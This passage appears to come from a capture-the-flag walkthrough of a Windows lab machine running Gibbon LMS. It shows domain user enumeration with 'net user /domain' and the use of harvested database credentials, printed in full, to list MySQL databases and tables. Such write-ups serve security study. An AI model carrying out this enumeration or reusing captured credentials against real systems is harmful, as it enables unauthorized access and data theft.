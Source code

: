 ```powershell
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

C:\xampp\htdocs\Gibbon-LMS>net user /domain
net user /domain

User accounts for \\FRIZZDC

-------------------------------------------------------------------------------
a.perlstein              Administrator            c.ramon
c.sandiego               d.hudson                 f.frizzle
g.frizzle                Guest                    h.arm
J.perlstein              k.franklin               krbtgt
l.awesome                m.ramon                  M.SchoolBus
p.terese                 r.tennelli               t.wright
v.frizzle                w.li                     w.Webservice
The command completed successfully.
```

We can find `mysql.exe` on `C:\xampp\mysql\bin`, let's use the credentials we found to check the relevant data on here:

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616172526.png)

We got `gibbon` and test, let's search tables on gibbon:

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" gibbon
Tables_in_gibbon
gibbonaction
gibbonactivity
gibbonactivityattendance
gibbonactivityslot
gibbonactivitystaff
gibbonactivitystudent
gibbonactivitytype
gibbonadmissionsaccount
gibbonadmissionsapplication
gibbonalarm
gibbonalarmconfirm
gibbonalertlevel
gibbonapplicationform
gibbonapplicationformfile
gibbonapplicationformlink
gibbonapplicationformrelationship
gibbonattendancecode
gibbonattendancelogcourseclass
gibbonattendancelogformgroup
gibbonattendancelogperson
gibbonbehaviour
gibbonbehaviourletter
gibboncountry
gibboncourse
gibboncourseclass
gibboncourseclassmap
gibboncourseclassperson
gibboncrowdassessdiscuss
gibboncustomfield
```